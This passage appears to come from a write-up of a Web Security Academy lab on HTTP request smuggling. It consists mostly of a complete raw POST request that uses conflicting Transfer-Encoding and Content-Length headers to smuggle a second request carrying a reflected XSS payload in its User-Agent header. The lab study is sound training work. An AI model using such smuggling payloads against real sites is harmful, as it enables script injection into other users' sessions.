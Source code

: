 I had to add the Content-Length and at least one character:



![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/18.png)

```
POST / HTTP/1.1
Host: 0ab30009038a2d4080d2494d0061002a.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 120

0

GET /post?postId=6 HTTP/1.1
User-Agent: useragent"><script>alert(1)</script><a href="/test
Content-Length: 3

a
```
